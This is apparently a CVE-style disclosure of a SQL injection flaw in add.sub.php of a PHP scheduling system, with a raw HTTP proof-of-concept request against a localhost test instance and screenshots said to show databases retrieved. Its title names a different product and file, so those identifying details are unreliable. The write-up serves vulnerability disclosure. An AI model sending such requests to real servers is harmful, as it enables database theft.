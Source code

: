 # Responsive Blog Site has sql injection in single.php

## supplier 
https://code-projects.org/simple-scheduling-system-in-php-with-source-code/
## Vulnerability file
add.sub.php

## describe

**Code analysis**   

In the add.sub.php file of Responsive Blog Site, the subcode parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/4df13fa0-5e56-48ff-9f29-c721c6476851.png)


## POC

```
POST /sche/schedulingsystem/add.sub.php HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 49
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/sche/schedulingsystem/addsubject.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ndcsgs6flhkd0mjf99bi0qqcoh
Connection: close

subcode=123&subdescription=123&submit=Add+Subject

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/d8560537-b648-4864-a15f-a12445e60120.png)
Get databases
![image-2025](https://github.com/asd1238525/cve/blob/main/50400a97-d442-44de-8b44-56279248c4b6.png)